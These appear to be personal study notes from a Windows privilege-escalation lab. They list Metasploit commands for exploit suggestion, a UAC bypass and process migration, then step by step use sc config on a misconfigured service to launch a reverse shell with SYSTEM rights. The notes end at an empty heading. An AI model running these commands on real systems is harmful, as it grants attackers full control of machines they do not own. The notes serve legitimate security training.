 
# Kernal Exploit

- Kernel exploit
    - Automated
        
        ```powershell
        use post/multi/recon/local_exploit_suggester
        ```
        
        ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2014.png)
        
        ```powershell
        use /exploit/windows/local/bypassuac_eventvwr
        ps
        migrate <PID>
        ```
        
    - Manual

# Services Exploit

- Services Exploits
    - Insecure Service Permissions
        
        Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:
        
        `C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`
        
        Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).
        
        Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):
        
        `sc qc daclsvc`
        
        Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:
        
        `sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`
        
        Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
        
        `net start daclsvc`
        
    - Unquoted Service Path
        